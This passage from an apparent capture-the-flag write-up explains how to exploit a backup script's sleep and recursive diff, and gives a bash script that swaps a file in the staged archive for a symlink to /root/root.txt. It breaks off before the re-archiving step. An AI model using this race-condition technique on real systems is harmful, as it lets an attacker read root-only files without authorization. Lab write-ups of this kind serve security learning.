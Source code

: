 ### Exploiting backeruperer

To exploit this script, I’ll take advantage of two things: the sleep, and the
recursive diff. During the sleep, I’ll unpack the archive, replace one of the
files with a link to `/root/root.txt`, and re-archive it. Then when the script
opens the archive and runs the diff, the resulting file will be different, and
the contents of both files will end up in the log file.

I originally did this with a long bash one-liner, but it is easier to follow
with a script:

    
    
    #!/bin/bash
    
    # work out of shm
    cd /dev/shm
    
    # set both start and cur equal to any backup file if it's there
    start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")
    
    # loop until there's a change in cur
    echo "Waiting for archive filename to change..."
    while [ "$start" == "$cur" -o "$cur" == "" ] ; do
        sleep 10;
        cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
    done
    
    # Grab a copy of the archive
    echo "File changed... copying here"
    cp $cur .
    
    # get filename
    fn=$(echo $cur | cut -d'/' -f4)
    
    # extract archive
    tar -zxf $fn
    
    # remove robots.txt and replace it with link to root.txt
    rm var/www/html/robots.txt
    ln -s /root/root.txt var/www/html/robots.txt
    
    # remove old archive
    rm $fn
    